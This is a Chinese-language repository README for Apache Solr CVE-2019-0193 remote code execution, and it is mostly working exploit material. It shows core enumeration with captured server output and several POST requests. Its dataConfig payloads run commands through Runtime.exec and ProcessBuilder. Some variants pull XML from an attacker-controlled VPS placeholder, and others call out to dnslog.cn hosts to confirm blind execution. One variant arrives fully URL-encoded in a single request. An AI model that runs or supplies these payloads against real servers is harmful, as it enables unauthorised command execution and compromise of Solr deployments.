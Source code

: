 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

  - [Apache Solr Rce cve-2019-0193](#apache-solr-rce-cve-2019-0193)
    - [# 1x01 恶意xml引用](#-1x01-%E6%81%B6%E6%84%8Fxml%E5%BC%95%E7%94%A8)
    - [# 有回显payload](#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
    - [# 有回显payload - 2](#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload---2)
    - [# 无回显payload](#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)
    - [# POST](#-post)
    - [# 区别](#-%E5%8C%BA%E5%88%AB)
    - [参考](#%E5%8F%82%E8%80%83)
    - [ENJOY!](#enjoy)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# Collection of verified vulnerabilities

## Apache Solr Rce cve-2019-0193

核心：
```bash
curl http://192.168.1.1:991/solr/admin/cores\?wt\=json                  
{"responseHeader":{"status":0,"QTime":17},"initFailures":{},"status":{"core1":{"name":"core1","instanceDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1","dataDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1\\data\\","config":"solrconfig.xml","schema":"managed-schema","startTime":"2021-04-25T12:43:08.088Z","uptime":62054759,"index":{"numDocs":181826,"maxDoc":181827,"deletedDocs":1,"indexHeapUsageBytes":-1,"version":15488,"segmentCount":13,"current":false,"hasDeletions":true,"directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1\\data\\index lockFactory=org.apache.lucene.store.NativeFSLockFactory@50d44b11; maxCacheMB=48.0 maxMergeSizeMB=4.0)","segmentsFile":"segments_1z0","segmentsFileSizeInBytes":-1,"userData":{"commitTimeMSec":"1619351488535"},"lastModified":"2021-04-25T11:51:28.535Z","sizeInBytes":81525254,"size":"77.75 MB"}},"us_series":{"name":"us_series","instanceDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series","dataDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series\\data\\","config":"solrconfig.xml","schema":"managed-schema","startTime":"2021-02-22T09:35:28.041Z","uptime":5429953208,"index":{"numDocs":0,"maxDoc":0,"deletedDocs":0,"indexHeapUsageBytes":0,"version":10,"segmentCount":0,"current":false,"hasDeletions":false,"directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series\\data\\index lockFactory=org.apache.lucene.store.NativeFSLockFactory@50d44b11; maxCacheMB=48.0 maxMergeSizeMB=4.0)","segmentsFile":"segments_3","segmentsFileSizeInBytes":-1,"userData":{"commitTimeMSec":"1591665641933"},"lastModified":"2020-06-09T01:20:41.933Z","sizeInBytes":1508,"size":"1.47 KB"}}}}
```
可利用的核心就是`core1`、`us_series`；即可构造传参url：

- http://192.168.1.1:991/solr/core1/dataimport
- http://192.168.1.1:991/solr/us_series/dataimport
- 有回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
- 无回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)

### # 1x01 恶意xml引用
引用地址`(https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CoVV/ApacheSolr/solr.xml)`

### # 有回显payload

```
POST /solr/core1/dataimport?command=full-import&debug=true&wt=json
&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig= HTTP/1.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 212
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
content-type: multipart/form-data; 
boundary=------------------------aceb88c2159f183f


--------------------------aceb88c2159f183f
Content-Disposition: form-data; name="stream.body"

<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF>

--------------------------aceb88c2159f183f--
```
（放到Decoder模块url编码）dataConfig：
```
<dataConfig>

  <dataSource type="URLDataSource"/>
  <script><![CDATA[

          function poc(row){

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));

return row;

}

  ]]></script>

        <document>
             <entity name="entity1"
                     url="http://{your_vps_ip}:{your_vps_port}/bin4xin.xml"
                     processor="XPathEntityProcessor"
                     forEach="/RDF/item"
                     transformer="script:poc">
                        <field column="title" xpath="/RDF/item/title" />
             </entity>
        </document>
</dataConfig>
```

![](../../assets/solr-RCE-echo-out.png)

### # 有回显payload - 2

> 2022/03/31/21:23:15 更新；发现一种**[无远程调用、有回显]**的exp

```
POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1  
Host: localhost
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Connection: close  
Upgrade-Insecure-Requests: 1  
Cache-Control: max-age=0  
Content-Length: 64  
  
<?xml version="1.0" encoding="UTF-8"?>  
<RDF>  
<item/>  
</RDF>
```

![solr-new-exp-2.png](../../assets/solr-new-exp-2.png)

[comment]: <> (f4cked!)

### # 无回显payload

区别在于dataConfig：

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

  <script><![CDATA[
          function poc(row){
 var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ping w5zhv5.dnslog.cn").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));
return row;

}

]]></script>

<document>
    <entity
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>

```

### # POST

```bash
POST /solr/core1/dataimport HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 581

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=new_core&name=dataimport&dataConfig=<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(data){
new+java.lang.ProcessBuilder["(java.lang.String[])"](["curl","fy544n.dnslog.cn"]).start()
}
  ]]></script>

  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![](../../assets/solr-RCE-post-method.png)


### # 区别
左边无回显，右边有回显

![](../../assets/solr-payload-difference.png)

### 参考

[漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](https://xz.aliyun.com/t/5965)

### ENJOY!